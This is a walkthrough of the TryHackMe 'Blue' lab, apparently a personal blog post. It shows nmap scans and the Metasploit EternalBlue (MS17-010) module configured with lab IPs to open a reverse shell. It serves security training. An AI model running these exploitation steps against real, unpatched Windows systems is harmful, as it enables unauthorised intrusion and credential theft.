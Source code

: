 ```yaml
---
title: "[🇺🇸] [WriteUp] - Blue (TryHackMe)"
excerpt: "Discover EternalBlue, MS17-010, RCE Vulnerability "
date: "Mar 27 2025"
cover_image: "/blog/bluethm.webp"
alt: "Writeup 1"
tags1: "Hacking"
tags2: "Windows"
---
```


# Machine: Blue (TryHackMe)

&nbsp;

> *Difficulty Level: ⭐*

&nbsp;

Blue is a machine with a vulnerability in the 445 protocol SMB. EternalBlue allows remote code execution that was discovered in [MS17-010]

Summary:

* Port Scanning
* Vulnerability Exploitation (MS17-010 / EternalBlue)
* Remote Shell
* Privileges Escalation to NT AUTHORITY\SYSTEM
* Dumping Password Hashes using Hashdump
* Hash cracking with John the Ripper
* Flag search

**At the end of the writeup I'll give you a summary of the entire machine, in english and spanish 🥳.**

**IMPORTANT** You must have a virtual machine or audit operating system with root privileges and an Internet connection..

**Methodology to be used:**

* Reconnaissance
* Enumeration
* Vulnerability search and analysis
* Exploitation
* Post-exploitation

## ¿What is EternalBlue?

Eternal Blue is an exploit that was allegedly developed by the U.S. National Security Agency (NSA).
This program was stolen and then leaked by "The Shadow Brokers". It was then used to execute one of the most damaging ransomware attacks in history, known as Wannacry.
The eternal blue virus program was designed to exploit a vulnerability registered as *CVE-2017-0144*, which corresponds to a security flaw in Microsoft's Server Message Block protocol (SMB).
The security patch for this eternal blue virus vulnerability, called *MS17-010*, was released in March 2017.
The use of the eternal blue exploited mainly affected hospitals, police stations and, in general, organizations around the world.

[Versions with MS17-010](https://support.microsoft.com/es-es/topic/c%C3%B3mo-comprobar-que-ms17-010-est%C3%A1-instalado-f55d3f13-7a9c-688c-260b-477d0ec9f2c8)
[CVE Versions](https://success.trendmicro.com/en-US/solution/KA-0008859)

&nbsp;

## Port Scan - Reconnaissance

Lets start with the reconnaissance phase.
Our IP is *10.8.42.68 and* the target is *10.10.90.82*

```powershell
ping -c 1 10.10.90.82
```

```powershell
nmap -sn 10.10.90.82
```

```powershell
sudo su
```

```powershell
nmap 10.10.90.82 -p- -sV -oN all_ports.nmap -Pn --min-rate 5000
```

ó

```powershell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.90.82 -oG Escaneo
```

Output:

![EscaneoBlue.png](https://i.postimg.cc/XYTQptyK/scanblue.png)

The 445/tcp for microsoft-ds Windows 7 port is open, this is the port that the vulnerability is going to be exploited.

&nbsp;

## Vulnerability Exploitation

```powershell
msfconsole

> search ms17-010

or 

> search eternalblue

> use exploit/windows/smb/ms17_010_eternalblue

or 

> use 0

> show options
```

![showoptions](https://i.postimg.cc/k5TQX1FP/shwop.png)

```powershell
> set RHOSTS 10.10.90.82
> set LPORT 65000
> set LHOST 10.8.42.68

> run
```

![runBlue](https://i.postimg.cc/wBGz4Cn3/bluaat.png)

![blueHelp](https://i.postimg.cc/L88rdytP/bluehlp.png)

```powershell
> search ms17-010
```

---

&nbsp;

> Mas adelante mostraré a realizar pruebas de penetración a diferentes sistemas en tu laboratorio.

&nbsp;

* 💜 Acceso al [--> Blog](https://aiskoa.vercel.app/es/blog/)
